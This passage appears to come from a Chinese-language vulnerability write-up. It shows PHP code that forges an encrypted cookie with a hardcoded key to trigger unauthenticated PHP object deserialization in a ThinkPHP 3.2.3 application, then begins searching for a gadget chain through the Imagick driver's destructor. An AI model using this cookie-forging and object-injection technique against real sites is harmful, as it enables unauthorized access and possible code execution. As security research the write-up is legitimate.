 ```
$ctr = 0;
$tmp = '';
for($i = 0; $i &lt; strlen($txt); $i++) `{`
$ctr = $ctr == strlen($encrypt_key) ? 0 : $ctr;
$tmp .= $txt[$i] ^ $encrypt_key[$ctr++];
`}`
return $tmp;
`}`

public function __destruct() `{`
$this -&gt; crypt_key = null;
`}`
`}`

function get_cookie($name, $key = '') `{`
$key = 'YzYdQmSE2';
$key = md5($key);
$sc = new \Common\Lib\SysCrypt($key);
$value = $sc-&gt;php_decrypt($name);
return unserialize($value);
`}`

function set_cookie($args, $key = '') `{`
$key = 'YzYdQmSE2';
$value = serialize($args);
$key = md5($key);
$sc = new \Common\Lib\SysCrypt($key);
$value = $sc-&gt;php_encrypt($value);
return $value;
`}`

$b = new \Think\Image\Driver\Imagick();
$a = set_cookie($b,'');
echo str_replace('+','%2B',$a);
```

[![](https://p5.ssl.qhimg.com/t017ba92bd6661bee21.png)](https://p5.ssl.qhimg.com/t017ba92bd6661bee21.png)

如上图，成功以反序列化方式触发__destruct()，后续测试发现也不需要登录。那么万事具备，只差反序列化链，但是众所周知thinkphp5.x都已被审计出反序列化链，thinkphp3.2.3却并不存在反序列化链，9月份时我问某个群里，也都说的没有。

我自己的找链思路如下，全局找__destruct()就只有一个靠谱的。

/Include/Library/Think/Image/Driver/Imagick.class.php

```
public function __destruct() `{`
empty($this-&gt;img) || $this-&gt;img-&gt;destroy();
`}`
```

$this-&gt;img可控，也就是说可以触发任意类的destroy方法，或者触发__call方法。__call没有任何靠谱的，反倒是destroy()两个都比较靠谱。
